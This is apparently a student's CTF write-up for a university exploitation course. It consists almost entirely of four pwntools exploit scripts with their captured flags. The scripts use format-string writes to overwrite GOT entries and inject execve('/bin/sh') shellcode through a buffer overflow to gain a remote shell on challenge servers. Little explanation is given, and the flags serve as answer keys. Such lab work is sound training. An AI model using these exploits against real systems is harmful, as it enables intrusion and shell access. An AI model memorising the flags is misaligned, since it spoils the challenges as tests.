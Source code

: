 door
===========================

Flag: │COMP6447{knock_knock..._who's_there??}

General overview of problems faced
-------------------------------------


Script/Command used
------------------
```
ffrom pwn import *

context.terminal = ["tmux", "splitw", "-h"]

# p = process("./door")
p = remote("plzpwn.me","4000")
p.recvuntil("at ")
ad = int(p.recv(10), 16)
log.info(hex(ad))

form = (".%s%s%s%s."
        "%%1$046x."
        "%%2$hhn."
        "%%1$269x."
        "%%3$hhn."
        "%%1$243x."
        "%%4$hhn."
        "%%1$012x."
        "%%5$hhn." %
        (p32(ad), p32(ad+1), p32(ad+2), p32(ad+3)))
log.info(form)
p.recv()
p.sendline(form)
p.recv()
p.interactive()
```

snake
=============

Flag: COMP6447{im_running_out_of_memes}


General overview of problems faced
-------------------------------------


Script/Command used
------------------
```
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']


execve = """
    mov eax, 0xb;
    push 6845231;
    push 1852400175;
    mov ebx, esp;
    mov ecx, 0;
    mov edx, 0;
    int 0x80;
"""


p = remote("plzpwn.me","4001")
print p.recv()
p.sendline("3")
print p.recv()
p.sendline("A"*0x50)
print p.recvuntil("offset ")
address = p.recv(10)
vul = int(address, 16) - 158
print(address)
log.info("start of buffer: " + hex(vul))

p.sendline("1")
payload = asm(execve)
fill = 54 - len(payload)
p.sendline(payload + '\0'*fill + p32(vul))
print p.recv()
p.interactive()
```

formatrix
=============

Flag: COMP6447{i_r8_th15_m0vie_4/12}

General overview of problems faced
-------------------------------------


Script/Command used
------------------
```
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

# p = process("./formatrix")
p = remote("plzpwn.me", "4002")
print p.recv()

#0x08048536
got = 0x8049c18
formatStr = (p32(got+3)+
        "%s"
        "%s"
        "%s"
        "%%1$247x."
        "%%3$hhn."
        "%%1$250x."
        "%%4$hhn."
        "%%1$127x."
        "%%5$hhn."
        "%%1$175x."
        "%%6$hhn." %
        (p32(got+2), p32(got+1), p32(got)))
log.info(p32(got))
log.info(formatStr)
p.sendline(formatStr)
print(p.recv())
p.interactive()
```

sploitwarz
=============

Flag:  COMP6447{almost_as_hard_as_installing_gentoo}

General overview of problems faced
-------------------------------------


Script/Command used
------------------
```
from pwn import *
import sys

fib = [0, 1, 1, 2, 3, 5, 8, 13, 21, 34, 55, 89, 144, 233, 377, 610, 987, 1597, 2584, 4181, 6765]
context.terminal = ['tmux', 'splitw', '-h']

p = process('./sploitwarz')
# p = remote("plzpwn.me", "4003")
pause()
p.recv()
p.sendline('%147$#x')
p.recv()
p.sendline('g')
p.recv()
p.sendline('0.0001')
p.recvuntil(":\n")
nonfib = 0
for i in range(5):
    p.recvuntil(" ")
    x = int(p.recvline())
    if ( x not in fib):
        nonfib = i+1
p.recv()
p.sendline(str(nonfib))
p.recvuntil("done, ")
leak = int(p.recv(10), 16)
win = leak - 3135
gotcha = win + 10888
print(hex(win))
win32 = p32(win)
def pad(d):
    s ='0'*3
    s += str(d)
    return s[-3:]


start = 16 + 1
print(hex(ord(win32[3])))
print(hex(ord(win32[2])))
print(hex(ord(win32[1])))
print(hex(ord(win32[0])))
off1 = ord(win32[3])*256 + ord(win32[2]) - start
off2 = ord(win32[1])*256 + ord(win32[0]) - off1 - 19



formatStr = ("%s%s%s%s"
        "%%8$n"
        "%%1$%sx."
        "%%6$hn."
        "%%1$%sx."
        "%%8$hn." %
        (p32(gotcha+3), p32(gotcha+2), p32(gotcha+1), p32(gotcha+0),
        off1, off2))

print("exit is at " + hex(gotcha))
print("win is at " + hex(win))

p.recv()
p.sendline("\nc")
p.recv()
p.sendline(formatStr)
p.sendline("\n")
p.recv()
p.sendline("g")
p.recv()
p.sendline('0.0001')
p.recvuntil(":\n")
nonfib = 0
for i in range(5):
    p.recvuntil(" ")
    x = int(p.recvline())
    if ( x not in fib):
        nonfib = i+1
p.recv()
p.sendline(str(nonfib))
p.recvuntil("done, ")
p.recv()
p.interactive()
```
